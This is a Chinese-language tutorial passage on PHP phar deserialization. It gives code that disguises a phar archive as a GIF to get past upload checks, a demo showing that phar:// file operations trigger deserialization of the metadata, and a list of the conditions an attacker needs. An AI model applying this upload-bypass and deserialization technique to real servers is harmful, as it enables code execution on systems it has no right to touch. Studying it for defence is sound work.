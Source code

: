 ### phar伪装其它格式文件
- php识别phar文件是通过其文件头的stub，更确切一点来说是__HALT_COMPILER();?>这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。

```php
<?php
class TestObject {
    var $file = "phpinfo();";
}

@unlink("kite.phar");
$phar = new Phar("kite.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$o = new TestObject();
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```
![image](https://s2.ax1x.com/2019/11/07/MEkQyT.png)
- 可以看到meta-data是以序列化的形式存储的，采用这种方法可以绕过很大一部分上传检测。

### phar://

- 有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下：

![image](https://s2.ax1x.com/2019/11/08/MVLZ7V.png)

### demo 测试
```php
<?php
class TestObject{
    function __destruct()
    {
        echo $this -> file;   // TODO: Implement __destruct() method.
    }
}
include('phar://kite.phar');
?>
```
![image](https://s2.ax1x.com/2019/11/08/MZCkP1.png)

### 漏洞利用
- phar文件能够上传到服务端
- 目标有file_exists(),fopen(),file_get_contents,file()等文件操作的函数
- 要有可用的魔术方法作为"跳板"
- 文件操作函数的参数可控，且/、phar等特殊字符没有被过滤
